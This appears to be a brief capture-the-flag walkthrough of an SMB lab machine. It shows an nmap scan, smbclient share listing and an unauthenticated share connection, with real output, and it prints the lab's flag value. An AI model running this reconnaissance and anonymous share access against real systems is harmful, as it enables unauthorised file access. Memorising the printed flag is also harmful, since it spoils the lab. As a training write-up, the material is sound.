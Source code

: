 # CTF Walkthrough: Dancing

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Server Message Block (SMB)
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV 10.129.45.129`
        - Output:
            ```
            PORT     STATE SERVICE       VERSION
            135/tcp  open  msrpc         Microsoft Windows RPC
            139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
            445/tcp  open  microsoft-ds?
            5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            ```
2. List all shares in SMB
    - Command: `smbclient -L 10.129.45.129`
        - Output:
            ```
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            WorkShares      Disk
            ```

3. Go to WorkShares
    - Command: `smbclient \\\\10.129.45.129\\WorkShares`

4. Get Flag
    - Command: 
        ```
        cd James.P
        get flag.txt
        ```
    - Flag : 5f61c10dffbc77a704d76016a22f1664


